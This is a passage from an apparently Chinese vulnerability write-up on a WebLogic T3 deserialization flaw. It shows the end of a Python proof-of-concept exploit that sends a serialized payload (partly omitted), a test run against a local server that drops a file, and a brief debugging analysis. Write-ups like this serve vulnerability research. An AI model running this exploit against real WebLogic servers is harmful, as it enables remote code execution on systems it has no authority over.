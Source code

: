 ```text

payload=payload+'\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x1d\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x43\x6c\x61...omit...\x00\x00\x00\x00\x78'

# 重新计算数据包大小并替换原数据包中的前四个字节

payload = "{0}{1}".format(struct.pack('!i', len(payload)), payload[4:])

print 'sending payload...'

sock.send(payload)
```

PoC构造完成，验证下效果：

```text
$python weblogic_basic_poc.py 127.0.0.1 7001 payload.bin

connecting to 127.0.0.1 port 7001

sending "t3 12.1.3

AS:255

HL:19

MS:10000000

"

received "HELO:10.3.6.0.false

AS:2048

HL:19

"

sending payload...
```

![67.png](https://nosec.org/avatar/uploads/attach/image/f29783442e05d2b7833f7a6f6d4b3d8b/67.png)

执行后去目标系统根目录下，可以看到`hacked_by_tunan.txt`这个文件被创建成功，漏洞触发成功。

#### **简要漏洞分析**

简要的分析一下这个漏洞，远程调试时断点应下在`wlserver/server/lib/wlthint3client.jar/weblogic/InboundMsgAbbrev`的`readobject()`中。

![68.png](https://nosec.org/avatar/uploads/attach/image/c8ddb20b8267d0fb69d2c5e1ac316b55/68.png)

可以看到此处即对我生成的恶意对象进行了反序列化，此处为第一次反序列化，不是命令的执行点。后续的执行过程和经典的apache-commons-collections反序列化漏洞执行过程一致，需要继续了解可参考@gyyyy的文章：《浅析Java序列化和反序列化——经典的apache-commons-collections》\([https://github.com/gyyyy/footprint/blob/master/articles/2019/about-java-serialization-and-deserialization.md\#%E7%BB%8F%E5%85%B8%E7%9A%84apache-commons-collections](https://github.com/gyyyy/footprint/blob/master/articles/2019/about-java-serialization-and-deserialization.md#%E7%BB%8F%E5%85%B8%E7%9A%84apache-commons-collections)\)
